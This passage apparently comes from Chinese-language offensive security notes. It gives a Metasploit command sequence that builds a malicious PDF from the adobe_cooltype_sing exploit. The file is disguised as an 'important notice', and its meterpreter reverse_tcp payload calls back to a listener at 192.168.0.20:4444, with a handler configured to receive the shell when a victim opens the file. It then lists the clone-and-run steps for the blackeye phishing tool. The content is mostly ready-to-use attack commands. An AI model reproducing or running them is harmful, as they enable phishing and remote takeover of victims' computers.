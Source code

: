 通过metasploit也同样可生成恶意文件。

```
use exploit/windows/fileformat/adobe_cooltype_sing
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.20
set lport 4444
set filename 重要通知.pdf
run
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.20
set lport 4444
exploit
待电脑打开恶意文件后，将会传回meterpreter
```

![image-20221219195901625](../../images//image-20221219195901625.png)

![image-20221219195945154](../../images//image-20221219195945154.png)

### 3.2 blackeye

```
Usage: 
git clone https://github.com/thelinuxchoice/blackeye
cd blackeye
bash blackeye.sh
```

![image-20221219200114419](../../images//image-20221219200114419.png)
